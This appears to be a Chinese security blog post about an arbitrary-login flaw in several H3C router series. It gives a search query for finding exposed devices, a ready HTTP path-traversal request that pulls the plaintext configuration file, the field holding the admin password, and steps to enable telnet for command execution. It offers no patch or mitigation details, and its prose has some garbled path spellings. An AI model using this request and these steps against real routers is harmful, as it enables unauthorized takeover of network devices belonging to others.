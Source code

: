 #  H3C多系列路由器存在任意用户登录漏洞   
 魔都安全札记   2025-04-13 11:27  
  
# 一、漏洞简介  
  
 H3C 企业路由器(ERN ERG2N GR 系列》存在任意用户登录和命令 执行漏洞，攻击者可通过访问nserLog in.asp/actionpalicy_status1./xxxx.cfg 接口，xxxx为设备型号（比如设备型号为 ER5200G2 ，即访问userLog in.asp/../actionpolicy_status/../ER5200G2.cfg），统过COOKIE 验证，进行目录穿越，获取 设备的明文配置文件，配置中有明文的web 管理员账号admin 的密码，登陆后台 即可通过开启 telenet 获取命令执行权限    
# 二、影响版本  
- H3C多系列路由器  
# 三、资产测绘  
- hunterapp.name="H3C Router Management"  
- 登录页面  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVS2youBFHj3S3h89CL6sJq5UbM7y8s679mSvEIMicjEILibQnl7icg1KiabQ/640?wx_fmt=png&from=appmsg "null")  
# 四、漏洞复现  
1. 访问userLog in.asp/actionpalicy_status1./xxxx.cfg 接口，xxxx为设备型号（比如设备型号为 ER5200G2 ，即访问userLog in.asp/../actionpolicy_status/../ER5200G2.cfg）  
1. 根据设备型号修改payload  
```
GET /userLogin.asp/../actionpolicy_status/../ER2200G2.cfg HTTP/1.1
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVS6WXqmicm5tgjUePwAuXxKzcDoNF6lGMDwPHzO4Bgy7BA653Zs5GtVVA/640?wx_fmt=png&from=appmsg "null")  
1. 密码就在<font style="color:rgba(0, 0, 0, 0.9);">vtypasswd</font>  
字段  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVS78UPr8PVoGO2Q477oHmFQzib9WNnzqOFiazgbsSPJHEy8icPgGv4LicOXA/640?wx_fmt=png&from=appmsg "null")  
1. 账户为admin  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVSUDLgtoawo0fTt1tZBYUMsicickZq8fdIlPzUFTld4utKbmk6BrPTRgKw/640?wx_fmt=png&from=appmsg "null")  
1. 可在远程管理  
->远程telnet管理  
处开启telnet获取命令执行权限  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVS0CbEvibT7NEdYQpIVgGBudaxpJGibTibicgZOvFhMDTUhUAaC7u3MLR5QA/640?wx_fmt=png&from=appmsg "null")  
  
  
  
